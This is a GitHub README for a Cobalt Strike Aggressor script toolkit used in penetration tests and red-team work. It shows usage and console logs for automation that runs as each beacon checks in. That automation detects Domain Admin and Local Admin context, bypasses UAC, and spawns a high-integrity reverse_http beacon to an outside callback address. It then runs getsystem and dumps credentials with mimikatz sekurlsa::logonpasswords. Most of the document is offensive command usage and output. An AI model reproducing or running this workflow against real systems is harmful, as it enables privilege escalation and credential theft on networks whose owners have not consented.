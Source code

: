 # CobaltStrike-ToolKit
I’m sure there are better ways of doing all of this but as of right now there hasn’t been much put out so this will do :)

## CheckDA - Command

Currently uses a PowerShell based check, combined with an aggressor script to check for the initial agent user name.
While using .NET 3.5 to perform Domain Group enumeration (PowerShell 2+ safe). This allows for alerting on Pen-Test of a DA level beacons. 
### Usage
Load up the Script:
```
aggressor> load /root/Tools/CobaltStrike-ToolKit/Initial-DACheck.cna
[+] Load /root/Tools/CobaltStrike-ToolKit/Initial-DACheck.cna
```
When a initial beacon comes in you receive a pop up box and will see:
```
[*] Tasked beacon to import: /root/Tools/CobaltStrike-ToolKit/Invoke-DACheck.ps1
[*] Tasked beacon to run: Invoke-DACheck -Initial True
[+] host called home, sent: 2527 bytes
[+] received output:
Found-DA-User: admin
```
### Independent Command:
```
beacon> checkda
[*] Tasked beacon to import: /root/Tools/CobaltStrike-ToolKit/Invoke-DACheck.ps1
[*] Tasked beacon to run: Invoke-DACheck
[+] host called home, sent: 2519 bytes
[+] received output:
[!] Currently DA Context
```
## CheckLA - Command

Currently uses a PowerShell based check, combined with an aggressor script to check for the initial agent context.
While using .NET 3.5 to perform Local Group enumeration and Token Context (PowerShell 2+ safe). This has the following context:
1. Checks for Initial Beacons Context (Elevated or Local Admin)
2. If the beacon is elevated it will Auto Getsystem, and run LogonPasswords
3. If the beacon in Local Admin but not in a high integrity process it will run Bypass UAC on that beacon
4. This will than launch a beacon in a high integrity beacon causing the first event to fire running LogonPasswords

### Usage 
Run this with all the other scripts
```
aggressor> load Initial-LAdminCheck.cna
[+] Reload /root/Tools/CobaltStrike-ToolKit/Initial-LAdminCheck.cna
```
when a Initial Beacon comes in:
```
aggressor> reload Initial-LAdminCheck.cna
[+] Reload /root/Tools/CobaltStrike-ToolKit/Initial-LAdminCheck.cna
```
If it returns as a Local Admin it will perform Bypass UAC:
```
[*] Tasked beacon to spawn windows/beacon_http/reverse_http (192.168.1.198:80) in a high integrity process
[+] host called home, sent: 76304 bytes
```
The new beacon will run logonPassword as desired :)
```
[*] Tasked beacon to get SYSTEM
[*] Tasked beacon to run mimikatz's sekurlsa::logonpasswords command
[+] host called home, sent: 444597 bytes
[+] Impersonated NT AUTHORITY\SYSTEM
[+] received output:
```
### Independent Command 
```
beacon> checkla
[*] Tasked beacon to import: /root/Tools/CobaltStrike-ToolKit/CheckLAdminContext.ps1
[*] Tasked beacon to run: Invoke-LocalAdminCheck
[+] host called home, sent: 2622 bytes
[+] received output:
[!] Currently-in-LocalAdmin-Context
```
## DA-Watch - Set of Commands

Devloped by @britz to perform the same DA monitoring but using all Aggressor script to perform DA Group checks (OPSEC). This has a few commands and requires you to update the list of DA memebers. this can be done with a few commands and is very effective way of checking for DA without loading Powershell. On Pen-test's its not a big problem but on a red team OP this may be a No-Go.

### Usage
 load up the script
```
```
Run this command and it will populate the known DA list
```
shell net group /domain "Domain Admins"
```
### uaddDA - Command
Adds a user to the DA list
### uremDA - Command
Removes a user from the DA list
### ulistDA - Command
Prints a list of the current DA's to the Console
### uhookOn
Sets the hook to follow beacon output to "On". This will watch all output for Shell net group...
### uhookOff
Turns off the watch hook and set the follow beacon output to off.

### Credential Checks
Everytime a Cred is added to the Cred data model a credential is checked against the known list of creds. If it matches it posts to the event log!



